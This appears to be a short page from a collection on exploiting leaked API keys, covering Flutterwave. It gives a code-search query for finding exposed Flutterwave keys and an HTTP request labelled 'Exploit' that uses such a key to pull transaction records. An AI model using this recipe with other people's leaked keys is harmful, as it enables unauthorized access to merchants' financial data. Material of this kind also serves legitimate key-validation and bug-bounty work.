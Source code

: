```yaml
---
description: >-
  Flutterwave offers a host of seamless products for individuals, ensuring
  smooth transactions and efficient money management. Send money to loved ones.
---
```


# Flutterwave API

## Search

```
/api.flutterwave.com/ AND FLW AND key
```

## Exploit

```
GET /v3/transactions HTTP/2
Host: api.flutterwave.com
Authorization: Bearer [key]
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Cache-Control: max-age=0


```

check more

{% embed url="https://developer.flutterwave.com/reference/endpoints/transactions#get-multiple-transactions" %}
